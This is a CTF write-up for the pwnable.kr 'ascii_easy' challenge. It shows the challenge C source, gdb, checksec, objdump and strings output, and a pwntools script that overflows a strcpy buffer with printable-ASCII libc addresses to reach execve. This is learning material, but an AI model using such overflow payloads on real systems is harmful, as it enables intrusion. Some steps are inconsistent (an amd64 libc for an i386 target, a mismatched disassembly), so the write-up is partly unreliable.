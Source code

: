 
We often need to make 'printable-ascii-only' exploit payload.  You wanna try?

hint : you don't necessarily have to jump at the beggining of a function. try to land anyware.


ssh ascii_easy@pwnable.kr -p2222 (pw:guest)
```command
Reading symbols from ./a.out...
(No debugging symbols found in ./a.out)
gdb-peda$ set args "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
gdb-peda$ run
Starting program: /home/harry/pwnble/ascii/a.out "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
triggering bug...
*** stack smashing detected ***: terminated

Program received signal SIGABRT, Aborted.

```c
Scope:

```command
ascii_easy@pwnable:~$ checksec --file ./ascii_easy
[*] '/home/ascii_easy/ascii_easy'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
ascii_easy@pwnable:~$ 
```

Not much secuirty on this one :S 

Lets look at the code 


```cpp
 #include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>

#define BASE ((void*)0x5555e000) //we need this address 

int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}

void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}

void main(int argc, char* argv[]){

    if(argc!=2){
        printf("usage: ascii_easy [ascii input]\n");
        return;
    }

    size_t len_file;
    struct stat st;
    int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY); //ROP I reconise this from a different ctf challenge 
    if( fstat(fd,&st) < 0){
        printf("open error. tell admin!\n");
        return;
    }

    len_file = st.st_size;
    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        printf("mmap error!. tell admin\n");
        return;
    }

    int i;
    for(i=0; i<strlen(argv[1]); i++){
        if( !is_ascii(argv[1][i]) ){
            printf("you have non-ascii byte!\n");
            return;
        }
    }

    printf("triggering bug...\n");
    vuln(argv[1]);
    }

```

So we need this file, I tried to directly navigate to the location but sudo is banned. 

Quick way:
google the file (hopefully we can get it) 
https://github.com/libcdb/ubuntu/blob/master/libc/libc6_2.15-0ubuntu20_amd64/lib/x86_64-linux-gnu/libc-2.15.so 

```command
ROPgadget --binary libc-2.15.so >> rop.txt
```

The gadget method is way to many stages by the looks of things, I would need to write some script to pull some chains etc. 


sooo.......

```command

ascii_easy@pwnable:~$ objdump -d libc-2.15.so | grep execve
   3edab:	e8 30 98 07 00       	call   b85e0 <execve@@GLIBC_2.0>
000b85e0 <execve@@GLIBC_2.0>:
   b8616:	77 0b                	ja     b8623 <execve@@GLIBC_2.0+0x43>
   b8631:	eb e5                	jmp    b8618 <execve@@GLIBC_2.0+0x38>
000b8640 <fexecve@@GLIBC_2.0>:
   b8684:	0f 84 7e 00 00 00    	je     b8708 <fexecve@@GLIBC_2.0+0xc8>
   b8691:	75 75                	jne    b8708 <fexecve@@GLIBC_2.0+0xc8>
   b8695:	74 71                	je     b8708 <fexecve@@GLIBC_2.0+0xc8>
   b86c4:	e8 17 ff ff ff       	call   b85e0 <execve@@GLIBC_2.0>
   b86f2:	74 0c                	je     b8700 <fexecve@@GLIBC_2.0+0xc0>
   b8703:	eb 10                	jmp    b8715 <fexecve@@GLIBC_2.0+0xd5>
   b876a:	e8 71 fe ff ff       	call   b85e0 <execve@@GLIBC_2.0>
   b8802:	e8 d9 fd ff ff       	call   b85e0 <execve@@GLIBC_2.0>
   b88c9:	e8 12 fd ff ff       	call   b85e0 <execve@@GLIBC_2.0>
   b8967:	e8 74 fc ff ff       	call   b85e0 <execve@@GLIBC_2.0>
   b8a32:	e8 a9 fb ff ff       	call   b85e0 <execve@@GLIBC_2.0>
   b8c1b:	e8 c0 f9 ff ff       	call   b85e0 <execve@@GLIBC_2.0>
   b8cda:	e8 01 f9 ff ff       	call   b85e0 <execve@@GLIBC_2.0> <-------- Here Base funcion is called at 
   b8e01:	e8 da f7 ff ff       	call   b85e0 <execve@@GLIBC_2.0>
   b8ea8:	e8 33 f7 ff ff       	call   b85e0 <execve@@GLIBC_2.0>
   d8b77:	e8 64 fa fd ff       	call   b85e0 <execve@@GLIBC_2.0>
   d8eb5:	e8 26 f7 fd ff       	call   b85e0 <execve@@GLIBC_2.0>
   d91ae:	e8 2d f4 fd ff       	call   b85e0 <execve@@GLIBC_2.0>
   da486:	e8 55 e1 fd ff       	call   b85e0 <execve@@GLIBC_2.0>
ascii_easy@pwnable:~$ 

```


So er have the #define BASE ((void*)0x5555e000)  defined we need this somehow. I need to call execve. this is proving to be annoying. 


Lets dump the vuln functio and see what we get:
```cpp
void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}
```

```command
gdb-peda$ pdisas vuln
Dump of assembler code for function vuln:
   0x000055555555522e <+0>:	endbr64 
   0x0000555555555232 <+4>:	push   rbp
   0x0000555555555233 <+5>:	mov    rbp,rsp
   0x0000555555555236 <+8>:	sub    rsp,0x30
   0x000055555555523a <+12>:	mov    QWORD PTR [rbp-0x28],rdi
   0x000055555555523e <+16>:	mov    rax,QWORD PTR fs:0x28
   0x0000555555555247 <+25>:	mov    QWORD PTR [rbp-0x8],rax
   0x000055555555524b <+29>:	xor    eax,eax
   0x000055555555524d <+31>:	mov    rdx,QWORD PTR [rbp-0x28]
   0x0000555555555251 <+35>:	lea    rax,[rbp-0x20]
   0x0000555555555255 <+39>:	mov    rsi,rdx
   0x0000555555555258 <+42>:	mov    rdi,rax
   0x000055555555525b <+45>:	call   0x5555555550b0 <strcpy@plt>
   0x0000555555555260 <+50>:	nop
   0x0000555555555261 <+51>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000555555555265 <+55>:	xor    rax,QWORD PTR fs:0x28
   0x000055555555526e <+64>:	je     0x555555555275 <vuln+71>
   0x0000555555555270 <+66>:	call   0x5555555550e0 <__stack_chk_fail@plt>
   0x0000555555555275 <+71>:	leave  
   0x0000555555555276 <+72>:	ret    
End of assembler dump.
```
```command

ascii_easy@pwnable:~$ strings -tx libc-2.15.so | grep "error"
   d3ff error_one_per_line
   d44d __assert_perror_fail
   ddd2 clnt_spcreateerror
   e396 regerror
   eab5 clnt_perror
   f46c _IO_ferror
   fc8c __strerror_r
   ff7f strerror_l
  103ca clnt_sperror
  105d3 __libc_dl_error_tsd
  106b6 clnt_pcreateerror
  10c83 error_print_progname
  11263 error_message_count
  112fb herror
  119ab hstrerror
  12094 error_at_line
  121ca ferror_unlocked
  12291 argp_error
  12a69 gai_strerror
  12b13 __xpg_strerror_r
 159c4a Coprocessor error <----- Here
 159c5c Internal stack error
 159df7 Object-specific hardware error
 159f86 I/O error
 15b142 System error
 15cbeb Failed (unspecified error)
 15cd5e RPC: Authentication error
 15cded RPC: Remote system error
 15ce63 RPC: Failed (unspecified error)
 15d63f Unexpected error.
 15dac5 Input/output error
 15db09 Exec format error
 15df3d Advertise error
 15df4d Srmount error
 15df5b Communication error on send
 15df77 Protocol error
 15df99 RFS specific error
 15e007 Streams pipe error
 15e242 Remote I/O error
 15e361 Bus error
 15eba4 Unknown error
 15ebb2 Unknown error 
 15ebff xpg-strerror.c
 15ec0e __xpg_strerror_r
 15f54b error == 1
 15fb29 Resolver internal error
 15fb41 Unknown resolver error
 15fb58 Resolver Error 0 (no error)
 15fb9a Unknown server error
 160522 RPC: (unknown error code)
 1614b8 %s%s%s:%u: %s%sUnexpected error: %s.
 1652f0 clnt_raw.c: fatal header serialization error
 1654b8 %s: %s; why = (unknown authentication error - %d)
```
With this command we can see that we have the 0x5555e000 execeve address. 
The value should be between the values of 0x20 - 0xf7 this then is the kind of rop chain we are calling. 


```pyhton 
from pwn import *
execve = p32(0x5561676a)
rpc = p32(0x556c3343)
pointer = p32(0x556a583c)
param = "A"*32
param += execve
param += rpc
param += pointer
param += pointer

p = process(['/home/ascii_easy/ascii_easy', param])

p.interactive()
```

This took way to long to figure out
